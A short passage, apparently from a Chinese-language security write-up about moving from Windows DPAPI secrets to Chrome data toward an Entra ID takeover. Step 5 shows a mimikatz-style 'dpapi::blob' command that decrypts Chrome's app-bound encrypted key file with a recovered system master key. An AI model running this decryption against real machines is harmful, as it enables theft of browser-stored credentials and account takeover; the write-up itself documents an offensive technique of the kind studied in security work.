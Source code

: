 ![image-20250929195241887](/assets/posts/2025-09-30-from-dpapi-to-chrome-a-journey-to-entra-id-takeover/image-20250929195241887.png)

（5）通过得到的机器/系统 MasterKey 解密 “app_bound_encrypted_key.bin” 中的 Data BLOB。

```powershell
dpapi::blob /in:".\app_bound_encrypted_key.bin" /masterkey:"9d9a733d63da3b0759c15a6c70bdad83fd39a333238399acbbda2963049a971931f2b6e25df0c1288e3ef0d5cc1195712421134d66d043b937c8de867938fc66"
```
